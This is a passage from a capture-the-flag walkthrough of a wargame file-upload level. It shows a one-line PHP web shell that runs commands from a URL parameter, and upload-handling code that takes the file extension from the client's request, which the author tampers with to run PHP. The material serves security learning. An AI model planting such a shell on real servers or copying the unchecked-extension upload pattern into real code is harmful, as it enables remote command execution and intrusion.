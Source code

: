   ```php
   <?php system($_GET['cmd']); ?>
   ```
3. However, the uploaded file was automatically converted to a `.jpg` extension, which was not desirable for executing PHP code ;).
   ![Why JPG!](/assets/img/overthewire/natas11_15/natas12_2.png)
4. I examined the source code to understand the file handling process:
   ```php
   <?php

   function genRandomString() {
       $length = 10;
       $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
       $string = "";

       for ($p = 0; $p < $length; $p++) {
           $string .= $characters[mt_rand(0, strlen($characters)-1)];
       }

       return $string;
   }

   function makeRandomPath($dir, $ext) {
       do {
       $path = $dir."/".genRandomString().".".$ext;
       } while(file_exists($path));
       return $path;
   }

   function makeRandomPathFromFilename($dir, $fn) {
       $ext = pathinfo($fn, PATHINFO_EXTENSION);
       return makeRandomPath($dir, $ext);
   }

   if(array_key_exists("filename", $_POST)) {
       $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

       if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
           echo "File is too big";
       } else {
           if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
               echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
           } else {
               echo "There was an error uploading the file, please try again!";
           }
       }
   } else {
   ?>
   ```
5. The code revealed that the file name and path were randomized, but the extension was determined by the POST request. This allowed me to intercept the request and change the `.jpg` extension back to `.php`.